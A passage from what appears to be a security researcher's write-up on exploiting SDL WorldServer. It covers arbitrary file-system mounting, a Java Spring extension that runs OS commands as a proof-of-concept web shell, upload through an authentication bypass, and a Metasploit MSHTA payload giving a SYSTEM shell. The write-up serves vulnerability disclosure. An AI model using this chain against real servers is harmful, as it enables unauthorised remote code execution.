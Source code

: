 Browsing the web application, our eyes landed on the ‘Asset Interface System’ page, which contained an ‘AIS Mounts’ configuration page.

![8](https://www.triskelelabs.com/hs-fs/hubfs/8.png?width=505&height=407&name=8.png)

It turns out this lets us mount any path on the file system:

 ![9](https://www.triskelelabs.com/hs-fs/hubfs/9.png?width=397&height=488&name=9.png)

From here, we can easily retrieve the WorldServer files, including the SDK, to build our custom API endpoint. Once we have the SDK, we followed the steps in the documentation to create our custom API:

```
package com.sdl.lt.worldserver.customizations.newextension;
import java.io.IOException;
import com.idiominc.wssdk.WSContext;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.bind.annotation.RequestMethod;
@RestController
@RequestMapping ("/extensions/test")
public class NewExtension
{
        @Autowired
        private WSContext context;
        @RequestMapping (value = "/clients", method = {RequestMethod.GET})
        public String test() throws Exception {
        try{
        Process p = Runtime.getRuntime)(.exec("INSERT COMMAND HERE");
        }
        catch (IOException exception){
        return "false";
        }
        return "PoC - Remote Code Execution";
        }
}
```

After building it with Maven, we can simply upload it using the authentication bypass:

![12](https://www.triskelelabs.com/hs-fs/hubfs/12.png?width=695&height=762&name=12.png)

We chose a simple MSHTA payload using Metasploit to demonstrate the impact, which resulted in a SYSTEM shell (a quick PoC is a good PoC):

![13](https://www.triskelelabs.com/hs-fs/hubfs/13.png?width=825&height=230&name=13.png)

After obtaining the source code for WorldServer, it seems that the following function is responsible for the system account backdoor. It performed a check to ensure the token wasn’t empty and that the value is equal to 2.
